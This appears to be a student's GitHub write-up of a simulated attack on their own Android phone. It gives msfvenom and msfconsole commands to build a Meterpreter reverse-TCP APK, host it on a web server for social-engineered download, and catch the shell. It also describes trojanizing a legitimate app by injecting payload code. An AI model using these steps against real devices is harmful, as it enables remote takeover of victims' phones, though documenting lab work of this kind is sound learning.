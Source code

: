 For this simulated attack we will use my phone as the target device and my laptop as the attacking device. 
# Attack: Remote Shell execution by malicious payload present in target device

## Broad Idea
We will use a tool ```msfvenom``` to build an apk which will be downloaded on the target device, lets say via social engineering. We will then use ```msfconsole``` to listen on the listening port and connect to the reverse TCP shell on the target device.

### Generate the payload
```msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -o very-useful-app.apk```

```LHOST``` - The IP of the host who has sent the payload
```LPORT``` - The listening port for the payload to connect back to the attacker 
```-o``` - The name of the resulting apk file generated 

### Deliver the file to the target device [Android]
Here we are going the host the the app as a website and whenever the unsuspeting victim browses to the website, they are prompted to download the file. This may be especiallly convincing when the user is trying to download pirated software, video or music. 

```sudo mv very-useful-app.apk /var/www/html``` 
```cd var/www/html``` 
```service apache2 start``` 

This starts up a website hosted on our computer itself, which hosts the file. 
Here is the POV of the victim downloading the apk. 

```Note that Google Play Protect has been disabled for this demonstration which would otherwise flag the file and not let the installation go through```

[target_downloading_the_payload.mp4](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/target_downloading_the_payload.mp4)

As the victim downloads the app we prepare for our next step. We start up Metasploit and select the exploit ```exploit/multi/handler``` and set up the same ```LHOST``` and ```LPORT```. The attacking device will now start listening on port 4444 and wait for connection from the payload.

```msfconsole``` 
```use exploit/multi/handler``` 
```set LHOST <attacker-IP>``` 
```set LPORT 4444``` 
```exploit``` 

Once the phone has installed the app and the victim tries to run it, the payload should activate and we will be given a shell on the android device. During my tests, I found that the target device had to force-start the app via Termux to get a persistent connection, otherwise the app would almost immediately get shut down by the android device. 

[force_starting_the_service.mp4](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/force_starting_the_service.mp4)

After we get a shell, we can explore the CLI interface of the android by typing ```help``` in the terminal. We soon realise that a lot of the commands are not usable by us. We need to perform privilege escalation to execute other commands. 
After this attempt I left for my class. When I came back the shell stopped working. I could not believe what I just witnessed and slowly came to realisation that it was time to get my hands dirty.

This picture is the only proof I have that I had actually managed to get a meterpreter shell on that android phone.

![the_only_proof.jpeg](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/the_only_proof.jpeg)

## # Troubleshooting Attempt - 1
I initially thought that the connection was weak so I tried port forwarding. 

![ngrok.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/ngrok.png)

![another_payload_using_port_fwd.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/another_payload_using_port_fwd.png)

![couldnt_reproduce_output.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/couldnt_reproduce_output.png)

Sadly, the output is still the same and msfconsole is left at listening mode.

## # Troubleshooting Attempt - 2
By now we can say that this vulnerability has been patched and the only effective way to get past this is to get the android to think this is a legitimate app but I'm not very good at this so here's my attempt

We get a legitimate app from the internet to act as the trojan, here we use F-Droid

![legitimate_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/legitimate_app.png)

Then we have to decompile both the apps and inject the malicious code from the payload into the legitimate F-Droid App.

![decompiling_both_apps.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/decompiling_both_apps.png)

Injecting malicious code from the payload into the ```AndroidManifest.xml``` file

![injecting_malicious_code.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/injecting_malicious_code.png)

![locating_the_MainActivity_file.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/locating_the_MainActivity_file.png)

![editing_smali_of_legit_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/editing_smali_of_legit_app.png)

This final step i.e. to edit the ```.smali``` file of the legitmate app, after doing which it started throwing errors during recompilation of the program.


## Final thoughts

Probably should've written my own script as these vulnerabilites get patched pretty quickly.
